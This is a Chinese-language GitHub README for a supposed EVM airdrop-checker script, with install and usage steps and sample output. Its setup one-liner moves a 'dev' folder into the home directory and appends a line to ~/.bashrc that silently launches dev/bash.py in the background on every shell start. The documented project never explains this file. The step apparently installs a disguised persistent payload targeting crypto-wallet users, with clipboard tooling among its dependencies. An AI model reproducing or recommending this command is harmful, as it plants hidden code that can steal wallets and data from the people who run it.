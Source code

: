 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip jq python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

### »»» 方法 1

使用以下命令运行脚本，按提示输入 EVM 地址

```bash
./check.sh
```

---

### »»» 方法 2

1.使用以下命令运行脚本，命令后面加上地址。 2.使用以下命令运行脚本，命令后面加上 txt 文件（先在 txt 文件中配置地址列表）。

```bash
python3 check.py ＜你的地址或者txt文件＞
```

---

### »»» 输出示例

```
查询地址: 0xaF616dABa40f81b75aF5373294d4dBE29DD0E0f6
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0.25307
    是否已领取: null
-------------------------------
  项目: optimism
    积分: -
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: scroll
    积分: 82.65113830566406
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: swell
    积分: 686.8572
    代币数量: 787.6345974761247
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
